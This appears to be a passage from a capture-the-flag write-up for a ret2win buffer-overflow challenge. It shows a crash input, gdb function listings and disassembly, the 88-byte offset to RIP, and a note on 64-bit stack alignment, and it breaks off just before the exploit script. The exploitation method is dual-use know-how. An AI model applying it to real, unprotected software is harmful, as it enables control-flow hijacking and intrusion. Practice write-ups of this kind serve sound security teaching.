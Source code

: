 We can see that it does not contain any stack canary, nor does it have PIE which means the address of functions and variables are always the same. Let's try a buffer overflow.

```bash
quixel@pop-os:~/Desktop/sniphers$ ./chall2 
Deep within the depths of binary land, a careless developer has left behind a function that grants instant victory. However, there's a catch – it's never called!
There's no easy way in, and you'll need to craft the perfect input
Enter your input: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa
Segmentation fault (core dumped)
```

We get a segmentation fault which means the program crashed. So it is vulnerable to overflow, a more elegant way to verify would have been to use Ghidra but hey it works. Let's look at the binary more closely with gdb:

```bash
pwndbg> info functions
All defined functions:

Non-debugging symbols:
0x0000000000401000  _init
0x00000000004010b0  _start
0x00000000004010e0  _dl_relocate_static_pie
0x00000000004010f0  deregister_tm_clones
0x0000000000401120  register_tm_clones
0x0000000000401160  __do_global_dtors_aux
0x0000000000401190  frame_dummy
0x0000000000401196  win
0x00000000004011b0  main
0x0000000000401230  _fini
pwndbg> disass win
Dump of assembler code for function win:
0x0000000000401196 <+0>:	endbr64 
0x000000000040119a <+4>:	push   rbp
0x000000000040119b <+5>:	mov    rbp,rsp
0x000000000040119e <+8>:	lea    rax,[rip+0xe63]        # 0x402008
0x00000000004011a5 <+15>:	mov    rdi,rax
0x00000000004011a8 <+18>:	call   0x401080
0x00000000004011ad <+23>:	nop
0x00000000004011ae <+24>:	pop    rbp
0x00000000004011af <+25>:	ret    
End of assembler dump.
```

We can see that the win is located at `0x0000000000401196`, and since PIE is disabled, we can be certain that win is always present at that address. Now we need to find the offset needed to correctly place this address at RIP so that the program jumps to the win function.

You can use cyclic to find it, I found that it's at 88. So our payload is 88 characters + address of win.

However this is a 64 bit binary and it checks for stack alignment, one way to overcome this is to use a ret instruction to align it, or we can jump one or two instructions right after the function starts. I went with the second approach, here's my pwntools script:

